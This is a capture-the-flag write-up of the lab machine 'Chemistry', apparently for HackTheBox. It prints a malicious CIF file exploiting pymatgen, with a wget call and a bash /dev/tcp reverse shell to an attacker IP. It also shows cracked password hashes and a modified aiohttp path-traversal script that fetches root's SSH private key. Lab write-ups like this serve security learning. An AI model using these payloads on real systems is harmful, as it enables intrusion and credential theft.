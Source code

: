 # Chemistry

## Nmap

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

We see we have 2 ports open ssh and a flask aplication on port 5000

## Site enumeration

I log in and test out the file upload section. After some googling I find i is vulnerable to [cif ACI](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f).

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system("wget 10.10.14.25:9000");0,0,0'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.25/9000 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

The above cif file gives us a revserse shell!!

## Remote shell

I upload linpeas.sh and run a scan

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

After some googling I relaise this is an exploit ive used already in the blunder miflin retired box! Lets run it again. Anddd it is not that simple :(

Looking around at the files we find a database in the instance folder and inside we find some hashed passwords.

Lets crack:

3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5 -> unicorniosrosados

6|carlos|9ad48828b0955513f7cf0f7f6510c8f8 -> carlos123&#x20;

7|peter|6845c17d298d95aa942127bdad2ceb9b  -> peterparker

8|victoria|c3601ad2286a4293868ec2a4bc606ba3 -> victoria123

## Ssh session

Now lets ssh as rosa with that pasword we found and we get the user flag!

Usinf netsat we can find an open port as 8080 with is a python/3.9 aiohttp/3.9.1 server after some googling we can find an [exploit](https://raw.githubusercontent.com/z3rObyte/CVE-2024-23334-PoC/refs/heads/main/exploit.sh).

We have to do some manual edditing here to get the roots ssh key. I was stuck on this for an incredibly long time I initially copied the key from the terminal and tried to use that. But it got rejected over and over again because it was not in the right format eventuall i changed the script to download the file and sshed into the root account from the rosa account see edited code:

```
!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/.ssh/id_rsa" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $url$payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is --output key.pem "$url$payload$file" 
        break
    fi
done

```

We can insert a reverse shell and get root!!

PWNDDDD
